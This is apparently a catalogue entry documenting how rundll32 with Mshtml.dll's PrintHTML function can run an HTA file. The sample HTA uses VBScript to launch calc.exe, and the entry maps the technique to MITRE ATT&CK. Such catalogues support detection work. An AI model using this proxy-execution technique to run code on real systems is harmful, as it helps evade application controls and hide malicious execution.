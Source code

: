 ## Mshtml.dll

* Functions: Execute

```
rundll32.exe Mshtml.dll,PrintHTML "C:\temp\calc.hta"    
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken

Code sample (calc.hta):
```
<html>
<head>
	<title>LOLBin</title>
	<script language="VBScript">
		Sub RunProgram
            Set objShell = CreateObject("Wscript.Shell")
            objShell.Run "c:\windows\system32\calc.exe"
			Self.Close
        End Sub
	</script>
</head>
<body onload="RunProgram">
    <h1>LOLBin</h1>
</body>
</html>
```

Resources:
* https://twitter.com/pabraeken/status/998567549670477824

Full path:
```
c:\windows\system32\Mshtml.dll
c:\windows\sysWOW64\Mshtml.dll
```

Notes:


Detection:
MITRE ATT&CK:
* [Rundll32](https://attack.mitre.org/wiki/Technique/T1085)
